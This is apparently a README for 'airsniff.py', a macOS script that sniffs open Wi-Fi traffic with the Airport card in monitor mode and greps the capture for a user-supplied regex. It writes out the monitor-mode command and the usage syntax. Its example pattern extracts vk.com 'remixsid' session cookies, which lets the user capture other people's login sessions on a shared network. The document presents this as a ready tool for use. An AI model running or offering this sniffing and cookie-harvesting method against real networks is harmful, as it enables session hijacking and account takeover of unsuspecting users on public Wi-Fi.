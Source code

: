 This is quite simple script. You can do all this stuff manually without the script.

It uses Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### How it works: 

* Turn Airport card into monitor mode on selected channel.
```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```
Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find out what channel number is used on your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* In cycle matches your regexp in .cap file and excluding duplicate strings.

#### Usage:

```sudo ./airsniff.py <channel> <"pattern">```

 **channel** — wifi channel

 **"pattern"** — regexp that will grep /tmp/*.cap file. Quotes  required!

Example for vk.com:

```sudo ./airsniff.py 10 "remixsid=[a-z0-9]{53}"```
